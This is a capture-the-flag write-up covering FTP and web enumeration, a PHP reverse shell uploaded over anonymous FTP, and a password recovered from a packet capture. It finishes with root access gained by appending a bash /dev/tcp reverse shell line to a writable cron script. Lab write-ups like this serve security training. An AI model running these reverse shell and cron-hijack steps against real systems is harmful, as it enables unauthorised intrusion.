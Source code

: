 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](Pasted%20image%2020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](Pasted%20image%2020241023165422.png)
![](Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](Pasted%20image%2020241023165753.png)
## SOURCE CODE

![](Pasted%20image%2020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](Pasted%20image%2020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](Pasted%20image%2020241023180944.png)
![](Pasted%20image%2020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![](Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](Pasted%20image%2020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](Pasted%20image%2020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![](Pasted%20image%2020241023184153.png)

Gg!

